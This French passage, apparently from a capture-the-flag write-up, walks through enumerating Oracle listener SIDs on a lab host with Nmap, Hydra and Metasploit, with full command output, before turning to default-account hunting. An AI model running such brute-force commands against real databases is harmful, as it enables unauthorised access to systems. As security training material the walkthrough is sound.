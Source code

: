 **NB :** pour utiliser certains modules Metasploit et autres outils d'attaques visant le SGBD Oracle il faut avoir installé certains outils officiels. L'installation est relativement simple et expliquée par exemple [ici](https://github.com/rapid7/metasploit-framework/wiki/How-to-get-Oracle-Support-working-with-Kali-Linux).  

La première étape consiste à trouver des SID valides sur le listener. Et pour cela les outils ne manquent pas. On peut citer *Nmap* :  

```plain
root@kali:~# nmap -p 1521 --script oracle-sid-brute 10.10.10.82 
Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-28 20:53 CEST
Nmap scan report for 10.10.10.82
Host is up (0.026s latency).

PORT     STATE SERVICE
1521/tcp open  oracle
| oracle-sid-brute: 
|_  XE

Nmap done: 1 IP address (1 host up) scanned in 97.09 seconds
```

Le non moins célèbre *Hydra* :  

```plain
root@kali:~# hydra -L sids.txt oracle-sid://10.10.10.82:1521
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-05-14 20:46:35
[DATA] max 16 tasks per 1 server, overall 16 tasks, 748 login tries (l:748/p:1), ~47 tries per task
[DATA] attacking oracle-sid://10.10.10.82:1521/
[STATUS] 552.00 tries/min, 552 tries in 00:01h, 196 to do in 00:01h, 16 active
[1521][oracle-sid] host: 10.10.10.82   login: XE
[1521][oracle-sid] host: 10.10.10.82   login: PLSExtProc
1 of 1 target successfully completed, 2 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-05-14 20:47:58
```

Et bien sûr Metasploit fait le job :  

```plain
msf auxiliary(admin/oracle/sid_brute) > exploit

[*] 10.10.10.82:1521 - Starting brute force on 10.10.10.82, using sids from /usr/share/metasploit-framework/data/wordlists/sid.txt...
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'XE'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'PLSExtProc'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'CLRExtProc'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID ''
[*] 10.10.10.82:1521 - Done with brute force...
[*] Auxiliary module execution completed
```

Une fois que l'on a trouvé un SID valide on passe à la recherche d'un compte valide. Comme Oracle a quelques comptes par défaut ça ne devrait pas poser de problèmes, sauf que dans la pratique on se rend compte que *Nmap* ne parvient pas à nous trouver quoi que ce soit (modules *oracle-enum-users*, *oracle-brute* et *oracle-brute-stealth*), sans doute du à la version d'Oracle utilisée...  
